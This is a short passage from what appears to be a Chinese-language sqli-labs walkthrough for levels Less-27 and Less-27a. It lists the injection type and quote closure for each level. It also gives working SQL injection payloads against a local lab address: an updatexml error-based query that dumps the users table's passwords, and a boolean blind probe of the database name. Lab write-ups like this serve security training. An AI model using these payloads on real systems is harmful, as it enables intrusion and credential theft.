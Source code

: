 
```sql
http://192.168.65.128/sqli-labs/Less-27/?id=1'
and(updatexml(1,concat(0x7e,(selecT(group_concat(password))from(users))),1))||'1'='1
```

![](file/image_j_o5-YkLlp.png)

### Less-27a：GET - Blind Based-All your UNION & SELECT Belong to us - Double Quotes

**注入类型**

布尔盲注

**闭合方式**

id="\$id"

```sql
//与Less-27对比，Less-27a删除了报错信息
http://192.168.65.128/sqli-labs/Less-27a/?id=1"
and(substr(database(),1,1)='s')and"1"="1
```

![](file/image_MscvI_AVFA.png)
